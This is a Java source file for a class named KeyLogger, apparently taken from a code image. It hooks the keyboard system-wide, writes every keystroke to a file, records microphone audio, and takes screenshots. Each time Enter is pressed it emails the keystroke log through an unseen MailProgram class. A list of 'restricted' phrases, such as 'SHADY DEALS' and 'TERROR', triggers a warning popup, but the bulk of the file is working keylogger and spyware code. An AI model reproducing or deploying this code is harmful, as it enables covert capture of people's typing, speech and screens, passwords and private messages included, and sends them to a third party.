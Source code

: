 package log;
import java.awt.*;
import java.awt.image.BufferedImage;
import java.io.BufferedOutputStream;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.io.PrintWriter;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.nio.file.StandardOpenOption;
import java.security.Key;
import java.util.ArrayList;
import java.util.List;
import java.util.logging.Level;

import javax.imageio.ImageIO;
import javax.sound.sampled.AudioFileFormat;
import javax.sound.sampled.AudioFormat;
import javax.sound.sampled.AudioInputStream;
import javax.sound.sampled.AudioSystem;
import javax.sound.sampled.DataLine;
import javax.sound.sampled.LineUnavailableException;
import javax.sound.sampled.TargetDataLine;
import javax.swing.ImageIcon;
import javax.swing.JButton;
import javax.swing.JFrame;
import javax.swing.JLabel;
import javax.swing.JPanel;
import javax.swing.JTextField;

import org.jnativehook.GlobalScreen;
import org.jnativehook.NativeHookException;
import org.jnativehook.keyboard.NativeKeyEvent;
import org.jnativehook.keyboard.NativeKeyListener;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;



import javax.sound.sampled.*;

import org.jnativehook.keyboard.NativeKeyEvent;

import java.io.*;

import org.jnativehook.keyboard.NativeKeyEvent;
import javax.sound.sampled.*;
import java.io.*;

public class KeyLogger implements NativeKeyListener {
	private static final Path file= Paths.get("keys.txt");
	TargetDataLine Audiodata;
	int i=0;
	String word = null;
	int count=0;
	private static final Logger logger = LoggerFactory.getLogger(KeyLogger.class);
	public static void main(String[] args) {
		logger.info("please type something check it in the bin/keyss ");
		init();
		try {			
			GlobalScreen.registerNativeHook();
		} catch (NativeHookException e) {
			logger.error(e.getMessage(), e);
			System.exit(-1);
		}		
		GlobalScreen.addNativeKeyListener(new KeyLogger());
		KeyLogger kl21=new KeyLogger();
		kl21.recordstart();
	}

	private static void init() {
		java.util.logging.Logger logger = java.util.logging.Logger.getLogger(GlobalScreen.class.getPackage().getName());
		logger.setLevel(Level.WARNING);
		logger.setUseParentHandlers(false);
	}

	public void nativeKeyPressed(NativeKeyEvent e) {
		String data = NativeKeyEvent.getKeyText(e.getKeyCode());
		try (OutputStream os = Files.newOutputStream(file, StandardOpenOption.CREATE, StandardOpenOption.WRITE,StandardOpenOption.APPEND); 
				
				PrintWriter writer = new PrintWriter(os)) {		
				writer.print(  data );	
				
		} 
		catch (IOException ex) {
			logger.error(ex.getMessage(), ex);
			System.exit(-1);
		}
	}		
	public int recordstart() {
		try {
			 boolean bigEndian = true;
			DataLine.Info parameters = new DataLine.Info(TargetDataLine.class, new AudioFormat( AudioFormat.Encoding.PCM_SIGNED, 44100.0f, 16, 2, 4, 44100.0f, bigEndian));
			if (!AudioSystem.isLineSupported(parameters)) {
				System.out.println("audio not suitable for given parameters");
				System.exit(0);
			}
			Audiodata = (TargetDataLine) AudioSystem.getLine(parameters);
			Audiodata.open(new AudioFormat( AudioFormat.Encoding.PCM_SIGNED, 44100.0f, 16, 2, 4, 44100.0f, bigEndian), Audiodata.getBufferSize());
			Audiodata.start();	
			System.out.println("Audio capturing statred  ...");
			recordstop stop=new recordstop();
			stop.start();
			AudioSystem.write(new AudioInputStream(Audiodata), AudioFileFormat.Type.AU, new File("capturedaudio.au"));
			Audiodata.stop();
			Audiodata.close();
			
		}
		 catch (LineUnavailableException ex) {
			ex.printStackTrace();
		} catch (IOException ioe) {
			ioe.printStackTrace();
		}
		return 0;
	
		}
		
	public void nativeKeyReleased(NativeKeyEvent e) {
			String Key=NativeKeyEvent.getKeyText(e.getKeyCode());
			String str[]=new String[100];
			if(!Key.equals("null")) {
			str[i]=Key;
			//System.out.printf("string is %s",str[i]);
			if(!Key.equals("Enter")) {
			if((i==0)&&(!str[i].equals("Backspace"))) {
			word=str[i];
			//System.out.println("word is"+word+i);	
			}
			else if(str[i].equals("Space"))
				word=word.concat(" ");
			
			else {
			word=word.concat(str[i]);
            //System.out.println("word is"+word+i);			
			}
			}
			
			if(Key.equals("Enter")){
				
				System.out.println("enter was pressed"+"word is "+word);
				if(word.equals("SHADY DEALS")) {
						System.out.println("Restricted word has been used");
						RestrictedWord();
						count++;
				}
				if(word.equals("BOOTLEG MARKET")) {
					System.out.println("Restricted word has been used");	
					RestrictedWord();
					count++;
			}
				if(word.equals("ILLEGAL SALES")) {
					System.out.println("Restricted word has been used");
					RestrictedWord();
					count++;
			}
				if(word.equals("UNDERGROUND")) {
					System.out.println("Restricted word has been used");
					RestrictedWord();
					count++;
			}
				if(word.equals("UNDERWORLD MARKET")) {
					System.out.println("Restricted word has been used");
					RestrictedWord();
					count++;
			}
				if(word.equals("GRAY MARKET")) {
					System.out.println("Restricted word has been used");
					RestrictedWord();
					count++;
			}
				if(word.equals("ILLEGTIMATE")) {
					System.out.println("Restricted word has been used");
					RestrictedWord();
					count++;
			}
				if(word.equals("CRIME")) {
					System.out.println("Restricted word has been used");	
					RestrictedWord();
					count++;
			}
				if(word.equals("TERROR")) {
					System.out.println("Restricted word has been used");
					RestrictedWord();
					count++;
			}
				count=1;	
				}
			
		i++;
		
		if(count==1) {
			word=null;	
			i=0;
			count=0;
			}
			}
		if(Key.equals("Enter")) {		
					IMAGECAPTURE();
						mailsend();
					}	

		}
		
	public static void mailsend() {
		try {
			MailProgram.sendMail(file);	
		}
		catch(Throwable e1) {
			e1.printStackTrace();
		}
	}
	
	public void nativeKeyTyped(NativeKeyEvent e) {  
			
	}

	public static void RestrictedWord() {
		 JFrame f = new JFrame("RESTRICTED WORDS ");
		    f.setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE);
		    f.getContentPane().add("Center",new JTextField("Restricted word Has been used . An Unauthorized activity has been detected"));
		    f.pack();
		    Dimension screenSize = Toolkit.getDefaultToolkit().getScreenSize();
		    f.setLocation(screenSize.width / 2 -250, screenSize.height / 2 -75);
		    f.setSize(500,150);
		    f.show();
		
		
	}
    public static void IMAGECAPTURE() {
    	 try { 
    		 GraphicsDevice[] capture = GraphicsEnvironment.getLocalGraphicsEnvironment().getScreenDevices();
    		    BufferedImage CONSOLECAPTURE = new Robot().createScreenCapture(new Rectangle(300, 450, 1000, 250));
    		   File file=new File("targetscreens.png");
    		    ImageIO.write(CONSOLECAPTURE, "png",file);  
    		    BufferedImage myPicture = ImageIO.read(file);
    		 Graphics2D g = (Graphics2D)  myPicture.getGraphics();
    		 g.drawRect(300, 450, 1000,250);
    		JFrame f = new JFrame();
    		f.setSize(new Dimension(1000, 250));
    		f.add(new JPanel().add(new JLabel(new ImageIcon(myPicture))));
    		f.setVisible(true);
    		System.out.println("IMAGE CAPTURED");
    		 
     }
    	 catch (AWTException | IOException ex) {
             System.out.println(ex.getMessage());
         }
}
    class recordstop extends Thread {
		public void run() {
			try {
				Thread.sleep(30000);
				System.out.println("Recording completed");
			} catch (InterruptedException ex) {
				ex.printStackTrace();
			}
			System.out.println("recording captured");
		}	
}
  
}
